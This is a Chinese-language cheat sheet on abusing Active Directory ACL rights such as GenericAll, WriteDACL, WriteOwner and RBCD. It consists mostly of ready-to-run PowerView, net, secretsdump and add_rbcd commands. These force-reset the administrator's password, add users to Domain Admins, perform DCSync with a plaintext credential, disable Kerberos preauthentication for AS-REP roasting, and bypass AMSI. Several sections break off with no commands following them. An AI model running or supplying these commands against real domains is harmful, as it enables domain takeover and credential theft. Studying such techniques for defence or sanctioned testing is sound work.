

ACL滥用
User-Force-Change-Password扩展权限
拥有该扩展权限，可在不知道目标用户密码的情况下强制修改目标的密码。
Import-Module .\powerview.ps1
#添加用户hack对域管理员administrator 重置密码的权限
Add-DomainObjectAcl -TargetIdentity administrator -PrincipalIdentity hack -Rights ResetPassword -Verbose
#修改密码
admod -users -rb cn=administrator unicodepwd::feng123! -optenc
#该权限不支持拿net命令修改密码
#或者
$cred = ConvertTo-SecureString "feng123!" -AsPlainText -force
Set-DomainUserPassword -identity hack -accountpassword $cred
member权限属性
拥有该属性的权限，可以将任意用户、组或机器加入到目标安全组中。
比如拥有了Domain Admins组的member属性的完全控制权，就可以往Domain Admins组里添加用户
net group "domain admins" hack /add /domain
msDS-AllowedToActOnBehalfOfOtherIdentity
拥有该属性的权限，可以修改目标对象基于资源的约束性委派RBCD，进行攻击获取目标的权限
Import-Module .\powerview.ps1
#添加用户hack对域控的msDS-AllowedToActOnBehalfOfOtherIdentity属性修改权限
Add-DomainObjectAcl -TargetIdentity "CN=DC,OU=Domain Controllers,DC=xie,DC=com" -PrincipalIdentity hack -RightsGUID 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79 -Verbose
#创建机器账户machine$，密码为root，然后赋予机器账户machine$到域控的基于资源的约束性委派
add_rbcd.exe domain=xie.com dc=DC.xie.com tm=DC ma=machine mp=root
然后进行一次基于资源的约束性委派攻击：

DCSync
python3.10 secretsdump.py 'egotistical-bank/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175' -just-dc
GenericAll权限
1.应用于用户
修改目标密码
net user administrator feng123! /domain
2.应用于机器
进行基于资源的约束性委派攻击
#创建机器账户machine$，密码为root，然后赋予机器账户machine$到域控的基于资源的约束性委派
add_rbcd.exe domain=xie.com dc=DC.xie.com tm=DC ma=machine mp=root

3.应用于组
给组添加用户
net group "domain admins" hack /add /domain
4.应用于域
hack拥有对域对象xie.com的GenericAll权限。
给hack Sync权限：
GenericWrite权限
类似于GenericAll权限，但是不能赋予User-Force-Change-Password和DCSync权限。
对于用户，可以修改其doesnotrequirepreauth属性的值来不需要 Kerberos 预身份验证，然后进行AS-REP Roasting攻击。
#evil-winrm必须先加载Bypass-4MSI才能powerview
menu
Bypass-4MSI
Import-Module .\powerview.ps1
Get-ADUser jorden | Set-ADAccountControl -doesnotrequirepreauth $true
WriteDACL权限
可以修改目标对象的DACL。拥有这个权限可以往指定安全对象写入任何的ACE，从而完全控制安全对象。
例如hack拥有对xie.com的WriteDACL权限，通过powerview脚本给hack添加对域xie.com的DCSync权限。
WriteOwner权限
可以修改目标对象的Owner属性。该权限可以修改指定安全对象的Owner属性为任意用户，而Owner默认拥有WriteDACL等权限，因此直接利用。
powershell
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword -Verbose
$cred = ConvertTo-SecureString "fengfeng123!@#" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred